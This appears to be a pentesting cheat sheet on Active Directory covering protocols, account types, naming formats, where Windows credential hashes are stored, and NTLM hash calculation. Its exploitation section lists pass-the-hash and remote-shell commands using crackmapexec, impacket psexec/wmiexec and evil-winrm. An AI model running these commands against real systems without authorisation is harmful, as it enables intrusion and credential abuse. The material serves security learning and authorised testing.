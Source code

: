 # AD Info
Active Directory is the Windows implementation of a general-purpose directory service.

---

## Common protocols used
|Service|port|Description|
|-|-|-|
|DNS|53|Host/IP translation|
|Kerberos, kpasswd|88,464|Authentication|
|RPC, RPC over HTTP|135, 593|Communication|
|NetBIOS|137, 138, 139|Communication, host/IP translation|
|LDAP, tls|389, 636|Main directory service, authorization|
|SMB|445|Communication|
|Global catalog LDAP, tls|3268, 3269|-|

---

AD Users and Computers:
* Objects
	* User account
		* Domain user account
		* Local user account
	* Computer account
	* Groups
		* Security Group
		* Distribution Group
	* Shares
	* Printers
	* Organizational Units (OU)
	* Attributes
	* Delegate Control

Service account:
* Managed service account (MSA)
	* sMSA
	* gMSA
* Computer account
* User account
	* Domain user account
	* Local user account

---

## Domain Naming
#### Down-level logon name
* NetBIOS_domain_name/samAccountName
* legacy systems - backwards compatible - used for local signon
* 20 chars long

#### User Principal Name (UPN)
* userPrincipalName@DNS_domain_name
* Useful in multi-domain 
* Reflects email style

http://blog.schertz.name/2012/08/understanding-active-directory-naming-formats/

*User account naming:*
* userPrincipalName
* sAMAccountName

*Domain & computers naming:*
* NetBIOS name
* DNS name

#### Naming Conventions
firstlast
first.last
flast
f.last
firlas
fir.las

---

## Windows credentials
SAM: password hashes local account - pass the hash - NTLM
	encrypted with SYSTEM bootkey
SECURITY: cached domain credentials - logged on host
SYSTEM: LSA secrets
NTDS.DIT: user hashes on stored on DC
	DRSUAPI or VSS
	Kerberos keys
LSASS process from memory: clear-text passwords from logged on users, kerberos tickets

Credential Manager
Protected Storage

#### NTLM/NT hash
Windows hash consists of: LM:NTLM
LM (LAN Manager): 2 parts DES. Stored for backward compatibility reasons. No longer need it
NTLM (NT LAN Manager)/NT: MD4 hash

#### Calculate NTLM/NT hash
```Python
import hashlib,binascii
print(binascii.hexlify(hashlib.new('md4', "<PASSWORD>".encode('utf-16le')).digest()))
```

---

## Exploitation
Check:
`crackmapexec SERVICE <IP> -u '<USER>' -p <PASS>` hash: -H

Shell:
`impacket-wmiexec -hashes '<HASH>' <USER>@<IP>`
`impacket-psexec -hashes '<HASH>' <USER>@<IP>`
`evil-winrm -i <IP> -u <USER> -p '<PASS>'` hash: -H
`python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass`
`psexec.py -k -no-pass -dc-ip <IP> AD/administrator@192.168.1.100`
smbexec.py
wmiexec.py

---

## Post-exploitation
`Bloodhound`
	`SharpHound` for local AD
	`AzureHound` for Azure AD